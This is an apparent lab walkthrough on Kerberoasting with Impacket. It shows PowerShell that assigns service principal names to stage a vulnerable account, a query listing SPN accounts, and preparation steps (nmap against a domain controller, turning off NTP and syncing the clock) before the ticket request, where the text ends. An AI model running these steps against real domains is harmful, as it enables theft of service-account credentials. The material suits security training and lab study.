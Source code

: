 # Steal or Forge Kerberos Tickets: Kerberoasting

Summary: You will need to have a user account and a password/ticket to be able to execute get-userspn using impacket.  By default this script will attempt an RC4 connection, if it fails will then try AES.

## Impacket - Get User SPNs (Staging)

Setup a User SPN with Powershell to stage the vulnerability
```powershell
# Import the Active Directory module
Import-Module ActiveDirectory

# Define variables
$accountName = "monitor.service"
$serviceName = "MonitorSvc"
$fqdn = "monitor.4gr8.local"
$port = 4300  # Default port for SQL Server

# Construct the SPN
$spn1 = "$serviceName/$fqdn"
$spn2 = "$serviceName/$($fqdn):$($port)"

# Assign the SPN to the account
Set-ADUser -Identity $accountName -ServicePrincipalNames @{Add=$spn1,$spn2}

# Verify the SPN
Get-ADUser -Identity $accountName -Properties ServicePrincipalNames
```

To view user accounts with a SPN
```powershell
Get-ADUser -Server <domain> -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName | Select SamAccountName, ServicePrincipalName
```

## Impacket - Get User SPNs (Exploiting)

Impacket will not pull the hash unless the time skew is within 5 minutes.  You can use nmap to determine the time skew between the attacking host and your computer

```bash
nmap -sC 10.27.20.180 -p 445
```

To disable the time synchronization on Kali linux / Ubuntu (make sure you set it back to sync your time)
```bash
timedatectl set-ntp 0
```

Adjust your time to that of the domain controller with the following command...
```bash
sudo date -s "7 Apr 2022 22:52:30"
```
